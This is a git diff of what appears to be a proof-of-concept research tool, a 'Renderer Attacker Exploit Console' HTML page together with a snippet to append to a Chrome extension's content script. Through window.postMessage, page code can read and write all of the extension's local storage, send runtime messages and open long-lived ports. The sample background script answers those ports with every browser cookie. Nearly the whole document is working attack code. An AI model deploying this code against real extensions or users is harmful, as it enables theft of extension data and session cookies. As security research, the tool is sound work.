

now also supporting long-lived connections

diff --git a/exploit_console.html b/exploit_console.html
@@ -12,6 +12,10 @@
 						document.getElementById('ext-storage').textContent = JSON.stringify(event.data.payload, null, 4);
 					} else if (event.data.resp === "responseAttackerSendMessage") {
 						document.getElementById('ext-message-response').textContent = JSON.stringify(event.data.payload, null, 4);
+					} else if (event.data.resp === "responseAttackerPortMessage") {
+						document.getElementById("chat").value += "<- " + JSON.stringify(event.data.payload, null, 4) + "\n";
+					} else if (event.data.resp === "responseAttackerPortDisconnect") {
+						document.getElementById("chat").value += "Other side disconnected.\n";
 					}
 				}
 			});
@@ -40,6 +44,24 @@
 					document.getElementById("ext-message-error").innerText = error;
 				}
 			}
+
+			function ext_connect() {
+				document.getElementById("chat").value += "Connecting...\n";
+				window.postMessage({type: "FROM_PAGE", req: "attackerOpenConnection"});
+				document.getElementById("chat").value += "Connected.\n";
+			}
+
+			function ext_disconnect() {
+				document.getElementById("chat").value += "Disconnecting...\n";
+				window.postMessage({type: "FROM_PAGE", req: "attackerCloseConnection"});
+				document.getElementById("chat").value += "Disconnected.\n";
+			}
+
+			function port_post_message() {
+				let message = JSON.parse(document.getElementById("ext-message-port").value);
+				document.getElementById("chat").value += ">> " + JSON.stringify(message) + "\n";
+				window.postMessage({type: "FROM_PAGE", req: "attackerPostMessageOnPort", payload: message});
+			}
 		</script>
 
 		<h1>Renderer Attacker Exploit Console</h1>
@@ -50,7 +72,7 @@
 		<br/><br/>
 
 		<h2>Extension Storage (Local)</h2>
-		<textarea readonly id="ext-storage" style="font-family: monospace;" rows="10" cols="100"></textarea>
+		<textarea readonly id="ext-storage" style="font-family: monospace;" rows="10" cols="100" placeholder="storage content will appear here"></textarea>
 		<br/>
 		<button type="button" onclick="read_ext_storage();">Read extension storage</button><br/>
 		<input type="text" id="key-tf" size="30" style="font-family: monospace;" placeholder="key" />:
@@ -67,6 +89,18 @@
 		<br/>
 		<button type="button" onclick="send_ext_message();">Send extension message</button>
 		<span id="ext-message-error" style="color:red"></span>
+
+		<br/><br/>
+
+		<h2>Extension Communication</h2>
+		<button type="button" onclick="ext_connect();">Connect</button>
+		<button type="button" onclick="ext_disconnect();">Disconnect</button>
+		<span id="connection-info"></span><br/>
+		<textarea readonly id="chat" style="font-family: monospace;" rows="10" cols="100" placeholder="exchanged messages will appear here"></textarea><br/>
+		<input type="text" id="ext-message-port" size="60" style="font-family: monospace;" placeholder="message JSON" />
+		<button type="button" onclick="port_post_message();">Post message on port</button>
+
+		<br/><br/>
 
 	</body>
 </html>

diff --git a/sample_extension/content.js b/sample_extension/content.js
@@ -2,27 +2,41 @@ console.log('Content script running');
 
 // Appended code snippet:
 
+var port;
 window.addEventListener("message",
     function(event) {
         if (event.source !== window || !event.data || event.data.type !== "FROM_PAGE") {
             return;
         }
         let req = event.data.req;
-        if (req == "attackerReadExtensionStorageLocal") {
+        if (req === "attackerReadExtensionStorageLocal") {
             chrome.storage.local.get(null, function(items) { // null to return the entire storage
                 console.log("Local extension storage read, sending response...");
                 window.postMessage({type: "FROM_EXTENSION", resp: "responseAttackerReadExtensionStorageLocal", payload: items});
             });
             return true;
-        } else if (req == "attackerWriteExtensionStorageLocal") {
+        } else if (req === "attackerWriteExtensionStorageLocal") {
             chrome.storage.local.set({[event.data.key]: event.data.value}).then(() => {
-                  console.log("Value set");
+                console.log("Value set");
             });
-        } else if (req == "attackerSendMessage") {
+        } else if (req === "attackerSendMessage") {
             let message = event.data.payload;
             chrome.runtime.sendMessage(message, (response) => {
                 window.postMessage({type: "FROM_EXTENSION", resp: "responseAttackerSendMessage", payload: response});
             });
+        } else if (req === "attackerOpenConnection") {
+            port = chrome.runtime.connect();
+            port.onMessage.addListener((msg, p) => {
+                window.postMessage({type: "FROM_EXTENSION", resp: "responseAttackerPortMessage", payload: msg});
+            })
+            port.onDisconnect.addListener((p) => {
+                window.postMessage({type: "FROM_EXTENSION", resp: "responseAttackerPortDisconnect"});
+            })
+        } else if (req === "attackerPostMessageOnPort") {
+            let message = event.data.payload;
+            port.postMessage(message);
+        } else if (req === "attackerCloseConnection") {
+            port.disconnect();
         }
     }
 );

diff --git a/code_snippet.js b/code_snippet.js
@@ -1,26 +1,40 @@
 // Append this to the content script of a Chrome extension.
 
+var port;
 window.addEventListener("message",
     function(event) {
         if (event.source !== window || !event.data || event.data.type !== "FROM_PAGE") {
             return;
         }
         let req = event.data.req;
-        if (req == "attackerReadExtensionStorageLocal") {
+        if (req === "attackerReadExtensionStorageLocal") {
             chrome.storage.local.get(null, function(items) { // null to return the entire storage
                 console.log("Local extension storage read, sending response...");
                 window.postMessage({type: "FROM_EXTENSION", resp: "responseAttackerReadExtensionStorageLocal", payload: items});
             });
             return true;
-        } else if (req == "attackerWriteExtensionStorageLocal") {
+        } else if (req === "attackerWriteExtensionStorageLocal") {
             chrome.storage.local.set({[event.data.key]: event.data.value}).then(() => {
                   console.log("Value set");
             });
-        } else if (req == "attackerSendMessage") {
+        } else if (req === "attackerSendMessage") {
             let message = event.data.payload;
             chrome.runtime.sendMessage(message, (response) => {
                 window.postMessage({type: "FROM_EXTENSION", resp: "responseAttackerSendMessage", payload: response});
             });
+        } else if (req === "attackerOpenConnection") {
+            port = chrome.runtime.connect();
+            port.onMessage.addListener((msg, p) => {
+                window.postMessage({type: "FROM_EXTENSION", resp: "responseAttackerPortMessage", payload: msg});
+            })
+            port.onDisconnect.addListener((p) => {
+                window.postMessage({type: "FROM_EXTENSION", resp: "responseAttackerPortDisconnect"});
+            })
+        } else if (req === "attackerPostMessageOnPort") {
+            let message = event.data.payload;
+            port.postMessage(message);
+        } else if (req === "attackerCloseConnection") {
+            port.disconnect();
         }
     }
 );

diff --git a/sample_extension/background.js b/sample_extension/background.js
@@ -20,3 +20,14 @@ chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
     // Return true to indicate that we will respond asynchronously!
     return true;
 });
+
+// cf. https://developer.chrome.com/docs/extensions/develop/concepts/messaging#connect:
+chrome.runtime.onConnect.addListener(function(port) {
+    port.onMessage.addListener(function(msg) {
+        chrome.cookies.getAll({}, // <= privileged API
+            (cookies) => {
+                port.postMessage({original_msg: msg, cookies: cookies});
+            }
+        );
+    });
+});
